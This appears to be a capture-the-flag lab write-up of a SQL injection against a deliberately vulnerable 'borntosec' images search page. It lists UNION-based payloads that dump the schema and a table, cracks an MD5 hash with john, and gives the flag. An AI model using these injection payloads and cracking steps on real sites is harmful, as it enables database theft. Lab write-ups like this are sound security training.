 # SQL injection
- a type of attack where a malicious user attempts to pass input that alters the final SQL query sent by the web application to the database
- the attacker first injects SQL code and then manipulates the web application logic, either by changing the original query or executing a completely new one
- https://book.hacktricks.xyz/pentesting-web/sql-injection

<b>keywords</b>: SQL<br>
<b>attacked site</b>: http://borntosec.42/?page=images

## Exploit
On the images page, there’s a search bar similar to the one on the members page. After some initial examination, we can see that we are interacting with the same database but a different schema:
``` sql
1 OR 1=1 UNION SELECT 1,database()-- -
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1,database()-- - 
Title: Member_images
Url : 1
```
Next, we check the columns that this table offers:
``` sql
1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS-- -
```
└─     Filtered output:
```
[...]
ID: 1 OR 1=1 UNION SELECT COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS--  
Title: list_images
Url : id
[...]
```
Now we know that the <code>list_images</code> table includes these columns:
```
id, url, title, comment
```
Enumerating the columns manually would be time-consuming, so we concatenate the columns to display them in the second column:
``` sql
1 OR 1=1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images
```
└─     Output:
```
ID: 1 OR 1=1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 	1928e8083cf461a51303633093573c46
Url : 1
```
Given the hashed password and the encryption method, we can directly brute-force it using <code>john</code>:
``` shell
└─$ john sql2_hash.txt --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
albatroz         (?)     
1g 0:00:00:00 DONE (2024-08-08 23:35) 5.000g/s 5166Kp/s 5166Kc/s 5166KC/s aldaya..alamo7
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```
Finally, we hash the password using SHA-256:
``` shell
└─$ echo -n "albatroz" | sha256sum                                         
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188  -
```
## Flag
f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
